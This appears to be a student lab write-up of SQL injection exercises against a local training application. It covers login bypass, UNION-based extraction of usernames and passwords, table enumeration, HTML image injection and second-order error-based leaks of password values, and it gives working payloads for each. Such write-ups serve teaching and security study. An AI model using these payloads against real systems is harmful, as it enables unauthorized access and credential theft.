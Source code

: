 # Vulnerabilities in Applications: SQL Injections

## Environment setup

1. `sudo docker-compose up`
2. The appliction is now available at: [http://127.0.0.1:8000](http://127.0.0.1:8000) (inside the VM)

**Note 1:** In all exercises, adding the `?debug=true` argument to the URL will print some debug information.

**Note 2:** In all cases, you must terminate all SQL queries by using `-- //`. The objective is to discard all text after your payload.


## SQL Injection Attacks

### Basic SQL Injections I

The login validation is made by executing the following line:

`SELECT * FROM users where username='".$user."' AND password ='.md5($password).'`

Following this query structure, we put a valid username in the username input like this: `admin' -- //`.

This will make the atribution `username='admin` and ,with `--`, comment the rest of the query (`//` is necessary server language so that this strategy works).

### Basic SQL Injections II

In this exercise we are testing another login page.

In this one, the login validation is made by executing the following line:
`SELECT * FROM users where (username='".$user."') AND (password ='.md5($password).')`.

Following this query structure, we put a valid username in the username input like this: `admin') -- //`. In this cae the closing paranthesis is necessary in order to bypass the query structure.

This will make the atribution `(username='admin)` and ,with `--`, comment the rest of the query (`//` is necessary server language so that this strategy works).

**Note:** In the past two sub-sections we exploited the username field because the pasword field is enctrypted with a hash before it goes to the server, so that field cannot be used to bypass the system.

### SQL Injections 

In this section we are testing a form that enables the search for products by partial matching of a string or character.

The query is made by executing the following line:

`"SELECT * FROM products WHERE product_name LIKE'".$query."%'`

There are several ways to take advantage of this and extract information:

 1. `b%' order by 5 -- //`
	 
    The `order by N` directive is ordering the displayed information by the **column N**, in this way we can manipulate the order of data as we want.
    
    The first part of the query (`CHARS%`) is necessary and lets us search for products that start with the pattern defined by **CHARS**.
	 
2. `'union select null,id,username,password,fname from users -- // `
	
    Following the same logic as in the first one, we can use the `union` directive followed by a `select` to populate the table we the information we want to see.
    
    In this specific example, we are able to access and see information about all users stored in the database.

3.  `'union select 1,'<img src="http://address"><img>',3,4,5 -- //`
	
    In this example (a little bit like the previous one), we are changing the information displayed and adding html code to display an image of our choice.

4. `'union select null,null,null,null,table_name from information_schema.tables -- //`
	
    One last example where we change the table's information and diplay the name of all the tables stored in the database.


### SQL Second order attacks
**Definition:** attacks that result in the storage of an unsanitized piece of SQL, that is later executed by an insecure function.

Basically, what we have is a field that will present any value we want.

The technique used in the last step can be used here.

The difference is that the information is not provided immediately, but only when the user executes the respective function.

This highlights the case that **SQL Injections can happen even in internal functions** that process data out of the database.

Examples:
1. `'or 1 in (SELECT @@version) -- //`
	
	When we execute the funtion, I will display an error.
	
	That error contains the information we wanted: `Warning 1292: Truncated incorrect DOUBLE value : 1.1.1.2`
	
2. `' or 1 in (select password from users) -- //`
	
	When we execute the funtion, I will display an error.
	
	That error contains the information we wanted: `Warning<: 1292: Truncated incorrect DOUBLE value : (...)`, where `(...)` are the passwords stored at the passwords' column of the table users.
